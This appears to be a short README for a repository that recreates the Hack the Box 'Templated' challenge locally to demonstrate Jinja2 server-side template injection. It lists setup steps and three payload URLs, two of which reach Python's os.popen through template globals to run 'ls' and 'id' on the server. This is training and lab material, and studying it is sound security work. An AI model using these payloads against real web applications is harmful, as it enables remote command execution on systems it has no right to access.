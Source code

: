 # Taking advanatage of SSTI
Recreated the Templated challenge in Hack the Box

## How to run \
1. ```git clone https://github.com/p-cap/HTB-Templated.git```
2. ```python3 demo.py```
3. Copy / paste the payload below

## Payload

http://localhost:5000/{{7*7}}

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls').read()%7D%7D

http://localhost:5000/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D

### Refereence:
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

